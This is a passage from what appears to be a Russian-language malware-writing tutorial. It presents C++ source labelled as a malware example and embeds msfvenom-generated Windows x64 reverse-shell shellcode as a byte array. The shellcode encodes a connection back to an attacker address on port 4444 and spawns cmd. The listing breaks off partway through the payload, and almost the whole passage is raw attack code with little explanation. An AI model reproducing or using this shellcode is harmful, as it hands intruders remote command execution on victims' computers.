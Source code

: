 ![msfvenom](./images/6/2021-09-18_20-28.png){width="75%"}

Начнем с простого кода на C++ для нашего вредоносного ПО:
```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
```